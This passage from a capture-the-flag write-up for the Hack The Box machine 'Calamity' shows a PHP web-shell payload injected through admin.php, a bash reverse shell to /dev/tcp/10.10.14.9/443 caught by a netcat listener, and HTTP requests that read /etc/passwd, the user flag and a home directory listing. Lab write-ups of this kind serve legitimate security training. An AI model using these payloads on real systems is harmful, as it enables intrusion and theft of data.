 ```bash
luc@kali:~/HTB/Calamity$ sudo nc -lnvp 443
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::443
Ncat: Listening on 0.0.0.0:443
Ncat: Connection from 10.10.10.27.
Ncat: Connection from 10.10.10.27:44792.
bash: cannot set terminal process group (1300): Inappropriate ioctl for device
bash: no job control in this shell
www-data@calamity:/var/www/html$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

We use the same PHP payload, `<?php system($_REQUEST["cmd"]); ?>`, but we change the value of `cmd` to `bash -c 'bash -i >& /dev/tcp/10.10.14.9/443 0>&1'`. This gives us a shell, but it quickly dies so we've to try something else.

```http
GET /admin.php?html=<%3fphp+system($_REQUEST["cmd"])%3b+%3f>&cmd=cat+/etc/passwd+|+grep+-v+-e+false+-e+nologin+-e+sync HTTP/1.1
Host: 10.10.10.27

...
root:x:0:0:root:/root:/bin/bash
xalvas:x:1000:1000:xalvas,,,:/home/xalvas:/bin/bash
```

We can read `/etc/passwd` and by filtering `false`, `nologin` and `sync` we can get a list of all users that can login to the machine.

```http
GET /admin.php?html=<%3fphp+system($_REQUEST["cmd"])%3b+%3f>&cmd=cat+/home/xalvas/user.txt HTTP/1.1
Host: 10.10.10.27

0790e7be************************
```

We can read the `user.txt` file this way, but we still need a way into the machine itself.

```http
GET /admin.php?html=<%3fphp+system($_REQUEST["cmd"])%3b+%3f>&cmd=ls+-lsa+/home/xalvas HTTP/1.1
Host: 10.10.10.27

...
   4 drwxr-xr-x 7 xalvas xalvas    4096 Jun 29  2017 .
   4 drwxr-xr-x 3 root   root      4096 Jun 27  2017 ..
   4 -rw-r--r-- 1 xalvas xalvas     220 Jun 27  2017 .bash_logout
   4 -rw-r--r-- 1 xalvas xalvas    3790 Jun 27  2017 .bashrc
   4 drwx------ 2 xalvas xalvas    4096 Jun 27  2017 .cache
   4 -rw-rw-r-- 1 xalvas xalvas      43 Jun 27  2017 .gdbinit
   4 drwxrwxr-x 2 xalvas xalvas    4096 Jun 27  2017 .nano
   4 -rw-r--r-- 1 xalvas xalvas     655 Jun 27  2017 .profile
   0 -rw-r--r-- 1 xalvas xalvas       0 Jun 27  2017 .sudo_as_admin_successful
   4 drwxr-xr-x 2 xalvas xalvas    4096 Jun 27  2017 alarmclocks
   4 drwxr-x--- 2 root   xalvas    4096 Jun 29  2017 app
   4 -rw-r--r-- 1 root   root       225 Jun 27  2017 dontforget.txt
   4 -rw-r--r-- 1 root   root      2231 Jun 24 05:53 intrusions
   4 drwxrwxr-x 4 xalvas xalvas    4096 Jun 27  2017 peda
3124 -rw-r--r-- 1 xalvas xalvas 3196724 Jun 27  2017 recov.wav
   4 -r--r--r-- 1 root   root        33 Jun 27  2017 user.txt
```
